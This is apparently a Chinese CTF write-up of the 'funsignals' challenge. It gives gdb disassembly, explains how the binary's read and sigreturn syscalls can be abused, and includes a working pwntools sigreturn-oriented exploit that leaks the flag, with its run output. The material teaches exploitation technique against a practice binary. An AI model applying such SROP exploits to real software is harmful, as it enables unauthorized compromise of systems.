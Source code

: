 ```
   0x000000001000000b <+11>:	syscall 
   0x000000001000000d <+13>:	xor    edi,edi
   0x000000001000000f <+15>:	push   0xf
   0x0000000010000011 <+17>:	pop    rax
   0x0000000010000012 <+18>:	syscall 
   0x0000000010000014 <+20>:	int3   
End of assembler dump.
gdb-peda$ disass syscall
Dump of assembler code for function syscall:
   0x0000000010000015 <+0>:	syscall 
   0x0000000010000017 <+2>:	xor    rdi,rdi
   0x000000001000001a <+5>:	mov    rax,0x3c
   0x0000000010000021 <+12>:	syscall 
End of assembler dump.
gdb-peda$ p &flag
$2 = (<text variable, no debug info> *) 0x10000023 <flag>
gdb-peda$ x/s 0x10000023
0x10000023 <flag>:	"fake_flag_here_as_original_is_at_server"
gdb-peda$ x/s flag
0x10000023 <flag>:	"fake_flag_here_as_original_is_at_server"
```
而且 flag 就在二进制文件里，只不过是在服务器上的那个里面，过程是完全一样的。

首先可以看到 _start 函数里有两个 syscall。第一个是 read(0, $rsp, 0x400)（调用号0x0），它从标准输入读取 0x400 个字节到 rsp 指向的地址处，也就是栈上。第二个是 sigreturn()（调用号0xf），它将从栈上读取 sigreturn frame。所以我们就可以伪造一个 frame。

那么怎样读取 flag 呢，需要一个 write(1, &flag, 50)，调用号为 0x1，而函数 syscall 正好为我们提供了 syscall 指令，构造 payload 如下：


exp代码
```python
from pwn import *

elf = ELF('./funsignals_player_bin')
p = process('./funsignals_player_bin')

context.clear()
context.arch = "amd64"

# Creating a custom frame
frame = SigreturnFrame()
frame.rax = constants.SYS_write         #系统调用号,设置rax使syscall调用write函数
frame.rdi = constants.STDOUT_FILENO     #设置输出到哪里,STDOUT_FILENO表示向屏幕输出
frame.rsi = elf.symbols['flag']         #设置rsi,表示从哪里开始读取
frame.rdx = 50                          #读取的长度
frame.rip = elf.symbols['syscall']      #指向syscall; ret;

p.send(str(frame))
p.interactive()
```
运行结果
```python
python exp.py 
[*] '/root/sploitfun/srop/funsignals_player_bin'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x10000000)
    RWX:      Has RWX segments
[+] Starting local process './funsignals_player_bin': pid 11751
[*] Switching to interactive mode
[*] Process './funsignals_player_bin' stopped with exit code 0 (pid 11751)
fake_flag_here_as_original_is_at_server\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00[*] Got EOF while reading in interactive
```